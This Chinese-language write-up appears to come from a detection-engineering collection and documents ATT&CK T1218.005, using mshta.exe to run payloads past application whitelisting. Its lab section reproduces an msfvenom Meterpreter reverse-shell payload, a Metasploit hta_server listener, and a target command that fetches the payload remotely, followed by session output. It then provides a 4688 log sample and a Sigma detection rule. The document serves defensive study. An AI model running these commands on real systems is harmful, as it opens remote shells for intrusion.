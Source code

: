 # T1218-005-Win-使用Mshta.exe执行payload（白名单）

## 来自ATT&CK的描述

Mshta.exe是一个执行微软HTA（HTML应用）的实用程序。HTA文件扩展名为.hta。HTA是独立的应用，使用与InternetExplorer相同的模型和技术来执行，但在浏览器之外执行。

攻击者可能会使用mshta.exe通过受信任的Windows实用程序来代理执行恶意.hta文件和Javascript或VBScript。已知攻击者在最初攻击阶段利用mshta.exe来执行代码的几个例子。

Mshta.exe可通过内联脚本来执行文件：mshtavbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))

也可以直接从URL执行：mshta http[:]//webserver/payload[.]hta

Mshta.exe可绕过不考虑其潜在用途的应用白名单解决方案。由于mshta.exe在InternetExplorer的安全上下文之外执行，因此它还会绕过浏览器安全设置。

## 测试案例

Mshta.exe是微软Windows操作系统相关程序，英文全称Microsoft HTML Application，可翻译为微软超文本标记语言应用，用于执行.HTA文件。

说明：Mshta所在路径已被系统添加PATH环境变量中，因此，可直接执行Mshta.exe命令。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

Windows 7 默认位置：

C:\Windows\System32\mshta.exe

C:\Windows\SysWOW64\mshta.exe

## 检测日志

Windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 攻击分析

#### 生成payload

```bash
root@12306Br0:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f hta-psh -o test5.hta

替换相关信息
```

#### 执行监听

```bash
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set lhost 192.168.126.146
msf exploit(windows/misc/hta_server) > set srvhost 192.168.126.146
msf exploit(windows/misc/hta_server) > exploit
```

#### 靶机执行payload

```bash
mshta.exe http://192.168.126.146:8080/Uj6Tcv.hta  #需要安装.net Framework 3.5
```

#### 反弹shell

```bash
msf5 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Using URL: http://192.168.126.146:8080/Uj6Tcv.hta
[*] Server started.
msf5 exploit(windows/misc/hta_server) > [*] 192.168.126.156  hta_server - Delivering Payload
[*] Sending stage (180291 bytes) to 192.168.126.156
[*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.156:50232) at 2020-04-14 11:03:33 +0800
```

## 测试留痕

安全日志能够清晰的记录命令行参数，截取windows安全事件4688进程创建部分内容：

```log
事件ID： 4688
进程信息:
新进程 ID:0xb20
新进程名称:C:\Windows\System32\mshta.exe
令牌提升类型:TokenElevationTypeDefault (1)
创建者进程 ID:0x13c
进程命令行:mshta.exe  http://192.168.126.146:8080/Uj6Tcv.hta
```

## 检测规则/思路

通过进程监控来检测和分析mshta.exe的执行和参数。查找在命令行中执行原始或混淆脚本的mshta.exe。比较mshta.exe的近期调用与历史已知合法参数及已执行二进制文件来确定是否有异常和潜在的攻击活动。在mshta.exe调用之前和之后使用的命令参数也可用于确定正在执行的二进制文件的来源和目的。

### sigma规则

```yml
title: MSHTA Suspicious Execution 01
id: cc7abbd0-762b-41e3-8a26-57ad50d2eea3
status: experimental
description: Detection for mshta.exe suspicious execution patterns sometimes involving file polyglotism
date: 2019/02/22
modified: 2019/02/22
author: Diego Perez (@darkquassar), Markus Neis, Swisscom (Improve Rule)
references:
    - http://blog.sevagas.com/?Hacking-around-HTA-files
    - https://0x00sec.org/t/clientside-exploitation-in-2018-how-pentesting-has-changed/7356
    - https://docs.microsoft.com/en-us/dotnet/standard/data/xml/xslt-stylesheet-scripting-using-msxsl-script
    - https://medium.com/tsscyber/pentesting-and-hta-bypassing-powershell-constrained-language-mode-53a42856c997
tags:
    - attack.defense_evasion
    - attack.t1140
logsource:
    category: process_creation
    product: windows
falsepositives: 
    - False positives depend on scripts and administrative tools used in the monitored environment
level: high
detection:
    selection1:
        Image: '*\mshta.exe'
        CommandLine: 
            - '*vbscript*' 
            - '*.jpg*'
            - '*.png*'
            - '*.lnk*'
            # - '*.chm*'  # could be prone to false positives
            - '*.xls*'
            - '*.doc*'
            - '*.zip*'
    condition:
        selection1 
```

### 建议

暂无

## 参考推荐

MITRE-ATT&CK-T1218-005

<https://attack.mitre.org/techniques/T1218/005/>

远控免杀专题(37)-白名单Mshta.exe执行payload

<http://sec.nmask.cn/article_content?a_id=d1a4d20858c9283aef9ef49d2e98352c>

检测可疑的Mshta使用情况

<https://github.com/microsoft/Microsoft-365-Defender-Hunting-Queries/blob/master/Execution/detect-suspicious-mshta-usage.md>
